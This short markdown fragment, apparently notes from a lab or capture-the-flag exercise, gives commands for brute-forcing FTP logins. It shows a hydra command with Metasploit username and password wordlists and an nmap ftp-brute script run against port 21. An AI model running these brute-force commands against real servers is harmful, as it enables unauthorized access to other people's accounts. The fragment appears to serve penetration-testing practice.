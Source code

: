 
### Using `hydra`
```
hydra -L <user_wordlist> -P <pass_wordlist> <Machine_IP> ftp
```


- **Username word-list path:**
```
/usr/share/metasploit-framework/data/wordlists/common_users.txt
```

- **Password word-list path:**
```
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### Using `nmap`

- First, put the username found in a single word-list:
```
echo "sysadmin" > users
```

- Use NMAP:
```
nmap <Machine-IP> --script ftp-brute --script-args userdb=/root/users -p 21
```
*We need to provide the username wordlist we created in arg userdb.*

